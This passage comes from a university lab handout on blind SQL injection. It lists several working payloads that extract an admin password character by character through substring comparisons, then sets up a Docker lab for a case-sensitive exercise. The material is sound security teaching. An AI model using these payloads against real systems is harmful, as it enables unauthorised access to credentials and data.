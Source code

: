 ```
# Count is 0 since the first letter of the password is not 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='a'--

# Count is 0 since the first letter of the password is not 'b'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='b'--

# Count is 1 since the first letter of the password is 'c'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='c'--

# Count is 1 since the second letter of the password is 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 2, 1)='a'--

# Count is 0 since the third letter of the password is not 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 3, 1)='a'--

...
```

There is one issue with this approach. For MySQL, string searches for non-binary strings (`CHAR`, `VARCHAR` and `TEXT`) using the collation of the comparison operands and are **case insensitive**! However, binary strings (`BINARY`, `VARBINARY` and `BLOB`) compare the numeric values of the bytes and the comparison is **case sensitive**. The following exercise would be constructing a Blind-based SQLi payload that is **case sensitive**.

### 5.1.6 Blind-based SQLi Exercise

For this exercise, download [docker-compose.sqli\_blind.yml](files/lab6/docker-compose-files/docker-compose.sqli\_blind.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_blind.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-blind-arm64`

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

Run the Docker containers using the following command.

```
sudo docker-compose -f docker-compose.sqli_blind.yml up
```

Since SQLi blind-based attacks are an inferred type of attack, [a template proof of concept script has been provided where you only need to fill in the payload](files/lab6/provided-files/sqli\_blind\_template.py). Your payload needs to use format strings and the MySQL function `group_concat` in the functions `exploit` and `get_length` in the provided code.
